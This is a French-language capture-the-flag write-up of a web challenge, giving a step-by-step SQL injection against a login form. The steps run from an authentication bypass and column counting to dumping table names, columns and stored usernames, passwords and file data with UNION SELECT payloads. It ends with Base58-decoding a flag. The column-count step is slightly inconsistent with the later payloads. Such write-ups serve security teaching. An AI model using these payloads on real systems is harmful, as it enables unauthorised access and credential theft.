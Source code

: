 ### **SQL Injection et récupération de données sensibles**

Dans ce challenge, on a un formulaire avec deux champs : `username` et `password`. Notre objectif est d'exploiter une faille SQL Injection pour extraire des données sensibles de la base de données.
![Screenshot](images/web_chall_description.png)
---

#### **Étape 1 : Tester une injection basique**

J'ai commencé par tester une injection SQL simple dans le champ `password`. Voici le payload utilisé :

`username=admin&password='OR''='`

**Résultat :**  
Le serveur retourne une liste d’utilisateurs présents dans la base de données :


![Screenshot](images/web_sqli_auth_bypass.png)

---

#### **Étape 2 : Déterminer le nombre de colonnes**

Ensuite, j’ai essayé de déterminer le nombre de colonnes nécessaires pour une requête SQL valide. J'ai utilisé ce payload :

`username=admin&password=' UNION SELECT null, null, null, null, null, null --` 

Cela a produit une erreur, ce qui indique que 5 colonnes sont nécessaires pour une injection valide.
![Screenshot](images/web_column_nb.png)
---

#### **Étape 3 : Obtenir la version de la base de données**

Avec le nombre correct de colonnes, j’ai utilisé un payload pour récupérer la version de la base de données :

`username=a&password=' UNION SELECT 1, @@version, 3-- -` 

**Résultat :**

![Screenshot](images/web_db_version.png)

Cela indique que la base de données utilise MySQL version 5.7.44.

---

#### **Étape 4 : Lister les tables**

Pour lister les tables disponibles dans la base de données, j’ai utilisé le payload suivant :

`username=a&password=' UNION SELECT 1, TABLE_NAME, 3 FROM INFORMATION_SCHEMA.TABLES-- -` 

**Résultat :**

![Screenshot](images/web_listing.png)

---

#### **Étape 5 : Lister les colonnes d’une table**

Une fois la table `blueprints` identifiée, j’ai listé ses colonnes avec ce payload :

`username=a&password=' UNION SELECT 1, COLUMN_NAME, 3 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='blueprints'-- -` 

**Résultat :**

![Screenshot](images/web_columns_names.png)
---

#### **Étape 6 : Extraire les données de la table**

J’ai ensuite extrait les données de la table `blueprints` en combinant les colonnes :


`username=a&password=' UNION SELECT id, CONCAT(username, ':', password, ':', is_encrypted, ':', file_name, ':', description), 3 FROM blueprints--` 

**Résultat :**

![Screenshot](images/web_extr_infos.png)

---

#### **Étape 7 : Décoder les données**

En regardant de plus près, j'ai trouvé une chaîne intéressante associée au fichier `secret_key.txt` :

`W5HWRxWbZM7AUhxgfRwZg58ANQFKgMwutG`

En la décodant en **Base58**, j’ai trouvé une partie de la flag.
![Screenshot](images/web_decode1.png)
![Screenshot](images/web_decode2.png)


---

### **Conclusion**

Ce challenge démontre l’impact potentiel d’une vulnérabilité SQLi. Grâce à des payloads bien construits, il est possible d’extraire des informations sensibles comme les noms de tables, de colonnes, et même des données critiques. La dernière étape, consistant à décoder les données trouvées, est la clé pour résoudre le challenge. Toujours vérifier les données sensibles dans les bases de données et appliquer des mesures de protection telles que les requêtes préparées pour éviter de telles attaques.